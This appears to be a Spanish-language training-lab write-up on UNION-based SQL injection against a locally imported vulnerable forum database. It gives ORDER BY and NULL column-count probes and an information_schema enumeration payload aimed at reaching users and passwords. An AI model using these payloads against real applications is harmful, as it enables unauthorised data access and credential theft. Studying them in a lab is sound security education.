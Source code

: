 
## Previo
Tiene que ser con un phpmyadmin antiguo.
Accedemos a phpmyadmin y creamos una base de datos que se llame forum. A continuación importamos forum.sql

## Saber el número de columnas de la tabla que afecta al formulario
Para que una consulta UNION funcione, se deben cumplir dos requisitos clave:
- Las consultas individuales deben devolver el mismo número de columnas.
- Los tipos de datos de cada columna deben ser compatibles entre las consultas individuales.

Cómo determinar del número de columnas requeridas en un ataque UNION de inyección SQL:
- El primer método consiste en inyectar una serie de cláusulas ORDER BY e incrementar el índice de columna especificado hasta que se produzca un error. Por ejemplo, vamos probando hasta que obtengamos un error, en nuestro caso:
  ```
  999' or '1'='1' UNION SELECT * from articulos order by 4 #
  ```

- El segundo método consiste en enviar una serie de cargas útiles de UNION SELECT que especifican un número diferente de valores nulos. Vamos probando:
  ```
  ' UNION SELECT NULL--
  ' UNION SELECT NULL,NULL--
  ' UNION SELECT NULL,NULL,NULL–
  ```
  La aplicación podría devolver este mensaje de error, o simplemente podría devolver un error genérico o ningún resultado. Cuando el número de valores nulos coincide con el número de columnas, la base de datos devuelve una fila adicional en el conjunto de resultados, que contiene valores nulos en cada columna.


## Mostrar los usuarios y contraseñas

### Datos de todas las bases de datos, tablas y columnas de MySQL
Partimos de la consulta del lab  que nos da la información de todas las bases de datos, tablas y columnas de MySQL. **El objetivo es que tenemos que conseguir introducir esta consulta para que nos de la información completa.**

Consulta SQL →
```
select information_Schema.tables.table_schema, information_Schema.columns.table_name, information_Schema.columns.column_name FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name;#
```

Inyección →
```
999' UNION select null, concat(information_Schema.tables.table_schema,'-->',information_Schema.columns.table_name), information_Schema.columns.column_name FROM information_Schema.columns, information_Schema.tables WHERE information_Schema.tables.table_name = information_Schema.columns.table_name;#
```
